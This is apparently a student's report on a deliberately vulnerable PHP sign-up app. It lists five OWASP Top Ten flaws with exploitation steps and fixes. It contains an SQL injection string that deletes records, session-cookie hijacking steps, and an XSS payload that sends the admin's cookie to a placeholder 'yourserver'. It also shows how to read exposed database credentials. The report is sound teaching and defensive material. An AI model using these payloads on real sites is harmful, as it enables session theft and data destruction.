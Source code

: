 # The Report

This project is done with PHP in a LAMP environment.<br> 
See https://github.com/j0ly/firstproject/blob/master/README.md for installation instructions.

There are many other problems with this code besides those which I have mentioned and provided a fix for here below. And regarding the suggested fixes, I know that there are many things that could be done to further improve the security. But I had to draw the line somewhere. The task was to have at least 5 OWASP Top Ten vulnerabilies, and to provide a fix for them, which I think I have done!

The OWASP vulnerabilities:

## A1-Injection

The content of the database can be deleted using SQL injection.

### How to identify 
1. Sign up some users to the event. Check from the Admin page. 
2. Then go to the Cancel page and enter: ```' OR '1'='1```. 
3. All the sign-ups are now gone, as you can see from the Admin page!    

### How to fix
Add this after line 12 in delete.php;

```$ticket = mysqli_real_escape_string($conn, $ticket);```

## A2-Broken Authentication and Session Management
The cookie-session-id, which is used for authentication, is sent over an unencrypted connection.

### How to identify
You can get access to the Admin page using the stolen cookie-session-id like this (but before you begin, install the “Advanced Cookie Manager” add-on to Firefox):

1. Capture the cookie-session-id with OWASP ZAP. 
2. Go to the Admin login-page with Firefox (but don’t log in, - if you are not asked for the credentials then close the browser and try again). 
3. Open “Advanced Cookie Manager” and enter the cookie-session-id you saw with OWASP ZAP into the "Value" box, replacing the existing one (delete first, then paste). Save the change.
4. Open the Event X start page, click the "Admin" link, and you’re in without entering credentials!

Note: You can use OWASP ZAP together with another browser to capture the cookie-session-id when logging in.

### How to fix
Enable SSL for the website (see the link in Readme for details)! 

## A3-Cross-Site Scripting (XSS)
The XSS code can be entered on the SignUp page, and executed on the Admin page when listing the sign-ups. 
### How to identify
Enter this code into the address field on the SignUp page;

```<img src=x onerror=this.src='http://yourserver/?c='+document.cookie>```

When the admin logs in and takes a look at the sign-ups, his session-id should be written to the Apache logs of “yourserver”.<br> 
But you can also test with code like this, in any of the fields on the SignUp page; 
```<body onload=alert('hello')>```

### How to fix
In done.php you can find these lines;
```
$fname = $_POST["name"];
$faddress = $_POST["address"];
$creditcard = $_POST["creditcard"];
```
Replace them with these lines;
```
$fname = clean($_POST["name"]);
$faddress = clean($_POST["address"]);
$creditcard = clean($_POST["creditcard"]);

function clean($data) {
  $data = trim($data);
  $data = stripslashes($data);
  $data = htmlspecialchars($data);
  return $data;
}
```

## A6-Sensitive Data Exposure
Credit card numbers are sent in cleartext with POST, over an unencrypted connection.

### How to identify
Capture the (imaginary) credit card numbers using OWASP ZAP.

### How to fix: 
Enable SSL (see the link in Readme for details)! 

## A7-Missing Function Level Access Control
The database credentials are stored in an easy to guess plaintext config file, inside the web-root, and is lacking access control.
### How to identify
Modify “yourserver” in this link to match your installation; http://yourserver/firstproject/admin/config.ini.<br> 
Then open this link with your browser, and you should see the credentials.

### How to fix
Deny access to the config.ini file. 

There is already a .htaccess file in the admin folder that should do that, but Apache does not by default enable the use of .htaccess files. To enable, do this:

  Open /etc/apache2/apache2.conf in an editor, and find these lines;
  ```
  <Directory /var/www/>
        Options Indexes FollowSymLinks
        AllowOverride None
        Require all granted
  </Directory>
  ```
  Change “AllowOverride None” to “AllowOverride All”. Run the command “apachectl restart”, and try to open the link again.
